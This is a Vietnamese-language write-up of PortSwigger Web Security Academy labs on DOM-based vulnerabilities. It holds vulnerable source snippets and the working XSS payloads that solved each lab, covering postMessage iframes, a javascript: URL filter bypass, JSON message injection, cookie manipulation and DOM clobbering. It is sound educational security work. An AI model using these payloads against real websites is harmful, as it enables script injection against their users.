




# **DOM-based vulnerabilities**

## **DOM là gì ?**

- Document Object Model (DOM) là một biểu diễn phân cấp của trình duyệt web về các phần tử trên trang.

- Các trang web có thể sử dụng JavaScript để thao tác các nút và đối tượng của DOM, cũng như các thuộc tính của chúng. Bản thân thao tác DOM không phải là vấn đề.
- Trên thực tế, nó là một phần không thể thiếu trong cách thức hoạt động của các trang web hiện đại. Tuy nhiên, JavaScript xử lý dữ liệu không an toàn có thể kích hoạt các cuộc tấn công khác nhau.
- Các lỗ hổng dựa trên DOM phát sinh khi một trang web chứa JavaScript lấy giá trị mà kẻ tấn công có thể kiểm soát, được gọi là nguồn và chuyển giá trị đó vào một chức năng nguy hiểm, được gọi là phần chìm.



## **LAB DOM**

> ### **DOM XSS using web messages**

- Đối với bài này sau khi tôi đọc source tôi đã thấy một script như sau:

```js
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

- Trang web đã sử dụng event message để lắng nghe từ trang web khác. Vậy làm sao để gửi message, tôi đã sử dụng Window.postMessage API.



- Vậy tôi thực hiện tấn công như sau:

```html
<iframe src="https://0a56005f0406bf7dc11cb27f0075003e.web-security-academy.net/" onload="this.contentWindow.postMessage('','*')">

```

> ### **DOM XSS using web messages and a JavaScript URL**

- Đối với bài này yêu cầu đề bài ra in ra print() thì sẽ solve được đề bài. Có 1 đoạn script trong trang web như sau:

```js
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

- Điều này có nghĩa là nó check xem trong message được nhận đến nếu không có http hoặc https thì sẽ thực hiện href url.

- Tôi đã bypass nó bằng comments như sau:

```html
<iframe src="https://0a1400e403823bbdc025b3c70031000b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

> ### **DOM XSS using web messages and JSON.parse**

- Ta hãy đọc source sau:

```js
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
```

- Như ta đã thấy khi trang web nhận message nó sẽ chuyển json sang object và để hiện print ta sẽ phải điểu chỉnh `type=load-chanel` bằng cách như sau:

```js
<iframe src="https://0ae400df04e995d3c03c8b77005400fe.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

> ### **DOM XSS using web messages and JSON.parse**

- Sau khi đọc source tôi đã để ý đoạn quay trở lại blog.


- Câu hỏi đặt ra ở đây là `returnUrl = /url=(https?:\/\/.+)/.exec(location);` nó có tác dụng gì.

- [**Chúng ta hãy tìm hiểu về regex**](https://topdev.vn/blog/regex-la-gi/)

- Dấu `?` ở đây có ý nghĩa là kí tự trước dấu hỏi có thể lặp 0 hoặc 1 lần.
- Dấu `/` có ý nghĩa bắt đầu hoặc kết thúc một regex.
- Dấu `.` khớp với một ký tự đơn nào ngoài trừ `\`
- `+` ý nghĩa kí tự trước có thể lặp không hoặc nhiều lần.

- Và từ những điều trên chúng ta có thể bypass chúng như sau:

```js
https://0a76006204761918c11371ec006f0057.web-security-academy.net/post?postId=7&url=https://exploit-0ad400130403192ec1d5703f01990020.exploit-server.net/
```

> ### **DOM-based cookie manipulation**


- Đây là đoạn code giúp nó thay đổi cookie của trang web. Và tôi đã thử chức năng như sau:


- Vậy tôi đã thử truyền script trên url bằng cách sau:

```js
https://0abf007403b85ccac2f37a48003c0091.web-security-academy.net/product?productId=1&%27%3E%3Cscript%3Eprint()%3C/script%3E%22%20onload=%22if(!window.x)this.src=%27https://0abf007403b85ccac2f37a48003c0091.web-security-academy.net%27;window.x=1;
```

> ### **Exploiting DOM clobbering to enable XSS**

- Đối với bài này sau khi đọc source tôi đã kiểm tra 2 file js đã có tác động gì trong comments. Tôi đã nhận thấy rằng file `resources/js/loadCommentsWithDomClobbering.js` sẽ có tác dụng truy xuất và in ra các comment của người dùng, file `resources/js/domPurify-2.0.15.js` có tác dụng ngăn chặn Xss của kẻ tân công nó sẽ ngăn chặn các thẻ và các thuộc tính.
- Tôi nghĩ `domPurify-2.0.15.js` là một thư viện của JS để ngăn chặn XSS nó sẽ xử lý input của người dùng. Tôi đã đi tìm hiểu thư viện `domPurify-2.0.15.js`.




- Tôi đã tìm ra 2 trang web có nói đến việc bypass `domPurify-2.0.15.js` :
  - [Tài liệu 1](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)
  - [Tại liệu 2](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)
  - [Tài liệu 3](https://research.securitum.com/dompurify-bypass-using-mxss/)

- Nhưng dường như thư viện đã được update, tôi đã thử một số trường hợp nhưng đã không thực hiện được. Tôi đã đến với `loadCommentsWithDomClobbering.js`, tôi đã phát hiện đến một vấn đề in ảnh người dùng ra.



- Vận dụng điều ấy tôi có thể nhúng ảnh vào như sau:

```js
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```

- Với mã tôi thực hiện để nhúng ảnh. Và sau khi người khác comment thì ảnh người ấy sẽ dính href của tôi và in ra alert XSS thành công.
